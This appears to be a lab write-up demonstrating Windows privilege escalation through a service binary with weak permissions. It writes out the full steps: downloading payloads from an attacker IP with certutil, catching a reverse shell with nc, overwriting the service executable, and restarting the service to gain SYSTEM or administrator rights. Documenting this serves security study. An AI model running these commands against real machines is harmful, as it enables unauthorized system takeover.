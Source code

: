 # Vulnerability Overview 
Insecure Service Executables refer to a vulnerability where the executable file (binary) that a Windows service runs has weak permissions, allowing an unprivileged user to modify or replace it. 
Since services often run with elevated privileges (e.g., SYSTEM), altering the executable can lead to privilege escalation.



# POC
It is important to know that there will be initial access to the target system before the privilege escalation is done. This was carried out by accessing the machine with a user credential and then using on the target CMD `certutil -urlcache -split -f http://10.4.106.235/esc.exe` a malicious file needed for the reverse shell was downloaded on the target, while the attacker machine listened with the command ` nc -nlvp 2294`

![image](https://github.com/user-attachments/assets/ed210457-164b-4e99-b1a3-6730248cad22)

The service "filepermsvc" details were checked out using the following command `sc qc filepermsvc`, and it turned out that the service is running with privileged access `SERVICE_START_NAME: LocalSystem` and the binary path ` BINARY_PATH_NAME: "C:\Program Files\File Permissions Service\filepermservice.exe"`
![image](https://github.com/user-attachments/assets/99ea3641-0012-477a-8ccc-d65e00f4df42)


The access list on the service's Binary path was then checked out using the command  `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

1. /accepteula: Automatically accepts the End User License Agreement (EULA) so the tool runs without prompting.
2. -q: Runs in quiet mode, suppressing unnecessary output like banners.
3. -u: Only user-level access (not group or system privileges).
4. -v: Verbose mode, providing detailed output about permissions.
5. -w: Checks for write permissions specifically.
6. - C:\PrivEsc\accesschk.exe: This is the path to the accesschk executable.
7. "C:\Program Files\File Permissions Service\filepermservice.exe": The target file being analyzed
![Screenshot from 2025-03-19 09-52-02](https://github.com/user-attachments/assets/b24ea522-1fcb-407c-a1c6-0dbded26f5c0)

The result showed that the user account can read and write into the binary ` RW BUILTIN\Users FILE_ALL_ACCESS`
![Screenshot from 2025-03-19 08-37-02](https://github.com/user-attachments/assets/8812cb56-968f-493a-8733-af8b11a0e10d)


Then, I sent two malicious files to the target via the reverse terminal
1.esc.exe: This malicious file was uploaded on the target using  `certutil -urlcache -split -f http://10.4.106.235/esc.exe`.

After the upload, the file was used to replace the original binary file of the `filepermsvc` service by using the command `copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
![Screenshot from 2025-03-19 08-52-16](https://github.com/user-attachments/assets/85c1e6f0-bf8e-481f-a5f6-5e055be05dc2)




This malicious file was uThis file would give a reverse shell with elevated privileges, and  when the servuice starts running
With a reverse shell running on 
![Screenshot from 2025-03-19 08-53-31](https://github.com/user-attachments/assets/2819563c-bbe4-42e7-af9f-29cd6a186274)


and it gave a reverse shell with admin privilege
![Screenshot from 2025-03-19 08-53-31](https://github.com/user-attachments/assets/22f9cc78-800f-43d3-9e7b-d4fe7944b35a)



# ######################################################################


2.x.exe: This file is a windows_service file that was compiled into an exe.. would elevate the privilege of the current user by adding it to the administrator group
 `certutil -urlcache -split -f http://10.4.106.235/x.exe`
   This was used to upload the file
![Screenshot from 2025-03-19 08-56-29](https://github.com/user-attachments/assets/e8ea9a11-9260-4faf-858b-9ae83964c9ae)


Then we copy using `copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y` 
![Screenshot from 2025-03-19 08-57-40](https://github.com/user-attachments/assets/acb2c733-d030-4cea-a430-e7fc7a986807)

Before running the command, the user had this privilege
![Screenshot from 2025-03-19 08-58-56](https://github.com/user-attachments/assets/829b828e-8bdd-4d92-abfe-23a8e433bb75)


after running `net start permsvc` the user had
![Screenshot from 2025-03-19 08-58-56](https://github.com/user-attachments/assets/906ade65-553d-4d50-8bb0-2b7e299165b9)


4. 



  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y



net start filepermsvc


